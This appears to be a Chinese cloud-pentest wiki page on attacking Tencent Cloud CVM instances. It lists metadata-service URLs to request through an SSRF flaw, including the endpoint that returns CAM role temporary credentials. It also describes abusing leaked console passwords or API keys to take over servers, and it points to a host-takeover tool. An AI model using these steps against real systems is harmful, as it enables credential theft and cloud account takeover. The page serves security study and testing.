 ```yaml
---
title: 腾讯云 CVM 弹性计算服务攻防
id: tencent_cvm
---
```


## 0x01 初始访问
### 1. SSRF与元数据
腾讯云服务器会公开每个实例的内部服务，如果发现云服务器中的SSRF漏洞，可以直接查询主机实例的元数据从而进一步深入利用。



当发现在云服务器上存在的 SSRF 漏洞，可尝试如下请求：

```
http://metadata.tencentyun.com/latest/meta-data/  获取 metadata 版本信息。
查询实例元数据。

http://metadata.tencentyun.com/latest/meta-data/placement/region
获取实例物理所在地信息。

http://metadata.tencentyun.com/latest/meta-data/local-ipv4 
获取实例内网 IP。实例存在多张网卡时，返回 eth0 设备的网络地址。

http://metadata.tencentyun.com/latest/meta-data/public-ipv4
获取实例公网 IP。

http://metadata.tencentyun.com/network/interfaces/macs/${mac}/vpc-id
实例网络接口 VPC 网络 ID。

在获取到角色名称后，可以通过以下链接取角色的临时凭证，${role-name} 为CAM 角色的名称：
http://metadata.tencentyun.com/latest/meta-data/cam/security-credentials/${role-name}
```

如果查询到存在SSRF漏洞的服务器在云上，则可以尝试读取角色的临时凭证进而接管该角色的身份，要注意的是只有在实例绑定了 CAM 角色后才能获取到临时凭证，如果没有指定CAM 角色的名称，接口会返回404。
相关漏洞案例：
https://hackerone.com/reports/341876

### 2. 凭证泄露

- **控制台登录凭证泄露**

腾讯云控制台支持邮箱、QQ、子用户的密码登录，这类数据较多泄露在可公开访问的网盘文件中，获取到账号密码后可登录控制台对云服务器执行密码重置，删除实例，shell命令执行等操作。

- **API 密钥泄露**

API 密钥是构建腾讯云 API 请求的重要凭证，这类数据较多泄露在GitHub、逆向后的客户端源码、js前端代码中，获取到SecretId和SecretKey后相当于拥有了对应用户的身份权限，如果该账户下有权限管理云服务器，则可以通过检索主机接管账户下的云服务器。
推荐使用图形化工具接管云主机：https://yun.cloudbility.com/

![](https://huoxian-community.oss-cn-beijing.aliyuncs.com/2022-03-30/1648621943-432421-image.png)
